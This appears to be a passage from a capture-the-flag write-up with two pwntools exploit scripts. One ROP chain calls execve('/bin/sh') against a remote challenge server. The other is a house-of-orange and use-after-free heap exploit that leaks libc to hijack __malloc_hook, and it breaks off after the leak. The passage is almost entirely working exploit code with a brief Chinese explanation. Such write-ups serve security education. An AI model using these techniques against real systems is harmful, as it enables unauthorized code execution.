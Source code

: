 ```python
ls=lambda *args:log.success(*args)
ia=lambda *args:p.interactive()
pl=lambda *args:print(*args)
ts=lambda *args:time.sleep(*args)
l8 = lambda x:x.ljust(8,b'\x00')

p = remote("8.147.128.251","44715")

def pwn():
        syscall = 0x0000000000404043
        rax_ret = 0x000000000040f984
        rdi_6_ret = 0x00000000004a18a5
        rsi_ret = 0x000000000042138a
        rdx_ret = 0x00000000004944ec
        ru('message :')
        payload = b'a'*0x100+p64(elf.bss())+p64(0x10)+p64(0)*0x18
        payload += p64(rdi_6_ret)+p64(0)*6+p64(rsi_ret)+p64(elf.bss()+0x200)+p64(rdx_ret)+p64(0x100)+p64(rax_ret)+p64(0)+p64(syscall)
        payload += p64(rdi_6_ret)+p64(elf.bss()+0x200)+p64(0)*5
        payload += p64(rdi_6_ret)+p64(elf.bss()+0x200)+p64(0)*5
        payload += p64(rdi_6_ret)+p64(elf.bss()+0x200)+p64(0)*5+p64(rsi_ret)+p64(0)+p64(rdx_ret)+p64(0)+p64(rax_ret)+p64(59)+p64(syscall)
        sl(payload)
        input()
        sd('/bin/sh\x00')
        ia()

pwn()
```

#### orange_cat_diary

house of orange free出一个unsorted chunk，然后泄露libc地址，用use after free劫持malloc hook即可

exp：

```python
from pwn import *
context.log_level='debug'
p=remote("8.147.133.230","33569")
libc=ELF('F:\pwn\libc-2.23.so')

def choice(i):
    p.sendlineafter('choice:',str(i))

def add(size,content):
    choice(1)
    p.sendlineafter('content:',str(size))
    p.sendafter('content:',content)
def edit(size,content):
    choice(4)
    p.sendlineafter('content:',str(size))
    p.sendafter('content:',content)

p.sendafter('name.','adadawdawdawfwewfwe')

add(0x68,b'a')
edit(0x70,b'a'*0x68+p64(0x0f91))
add(0x1000,b'a')
add(0x18,b'a'*8)
choice(2)
libc_addr=u64(p.recvuntil(b'\x7f')[-6:]+b'\0\0')-1640-0x10-libc.sym['__malloc_hook']
success('libc_addr: '+hex(libc_addr))
one=[0x45226,0x4527a,0xf03a4,0xf1247]
add(0x68,b'a')
```